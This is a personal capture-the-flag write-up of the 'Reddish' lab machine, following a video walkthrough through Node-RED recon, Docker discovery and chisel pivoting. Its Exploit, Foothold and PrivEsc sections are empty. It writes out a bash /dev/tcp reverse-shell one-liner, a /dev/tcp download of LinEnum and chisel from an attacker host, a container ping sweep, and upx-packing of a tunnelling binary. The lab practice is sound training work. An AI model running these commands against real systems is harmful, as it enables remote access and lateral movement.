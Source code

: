 # Reddish
Name: Reddish
Date:  24/08/2022
Difficulty:  Insane
Goals:  To practice:
- different ways pivot 
- Linux related machines 
- not done one recently 
- database hacking
Learnt:
1. I need to try switching more Web Requests
2. TCP reply not listen back on shell...
3. cat file transfer
4. /dev/shm directory
5. Manual(Heard but not tried till now) Go Programs by using ldflags and upx packing from 10Mb to 3Mb!

## Recon

![ping](Screenshots/ping.png)

I want to note some of the differences to mine and Ippsec's more efficient Recon, although its is a scripted video it is still someone else approach to Web Hacking to assimilate to my own.


Firstly Icons favicons, in the Haddix Bug Bounty Hunter Methodology and on serveral podcast Haddix mentions a friend whom had a expertise in favicon abuse. 

From the icon, reverse image searches - a reason to use google more then identifies the RedNode Application.

I feroxbuster and then tried the /red/about directory and got this post request :
This is such a weird request to me

![](weirdtokenrequest.png)

to get the About.html, grepping for `red`
![](greppingtheabout.png)`

Reveal node-red...

I still think the favicon is cooler, but I a happy that I am improving my searching or dorking ability somewhat as I have be worrying I am too meticulious or no where near enough to get anywhere. **BUT**

I would have notice the key, but not found it.. I know 

![posting](ippsecposts.png)

`ab68fb463e681b499d99226ce92e12e9`

DAY 2 returned it generate a new `b1a51218f30da47d4f45b52972804d1a`

[Node-RED](https://nodered.org/about/)is a program tools visually displaying and interactable function of a program in chart


![](no-exploits.png)

This section was a real hammer home of the, how can I achieve my objective with what is in front of me. I think I have been concern about learning about and I will endeavour to try more boxes like this, I remember there is some proving ground boxes that are more like this.

![nodered](NODE-red.png)

TCP reply to!

![shell](shell.png)


`bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'`

Even though I like ncat and netcat, I am glad to finally be prompted to use it as a file transfer mechanism instead of other tools. Similar to trying out powercat it felt fun, but also gratting a tad as I always see it on Enumeration Script scans after I run it.. but I don't check its there before file transfering.


WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

LinEnum finds Docker
![docker](weareindocker.png)

Although it is not mentioned a good thing to then check with Docker would be IP address as it is may have its own routing configuration to the host box.
![docker](dockerips.png)


```bash
for ip in $(seq 1 5); do
	ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"
	done
```
Oneliner
``
`for ip in $(seq 1 5); do ping -c 1 172.18.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`
`for ip in $(seq 1 5); do ping -c 1 172.19.0.$ip > /dev/null && echo "Online: 172.18.0.$ip"; done`

$1 = Gateway
try 2!
$3 = possibly other containers


```bash
cd /tmp
git clone https://github.com/jpillora/chisel.git
# To mimise binary size
# -s strip binary of debug info
# -w strip of dwarf infomation
go build -ldflags="-s -w"
upx brute chisel
ncat -lvp 80 < chisel
bash -c "cat < /dev/tcp/$IP/$Port > /tmp/chisel"
```

Ran into a lib missing error, trying this soon
```
go env GOOS GOARCH # current system as target
go tool dist list
GOOS=<os> GOARCH=<arch> go build
```

30:00
https://www.youtube.com/watch?v=Yp4oxoQIBAM

## Exploit

## Foothold

## PrivEsc

      
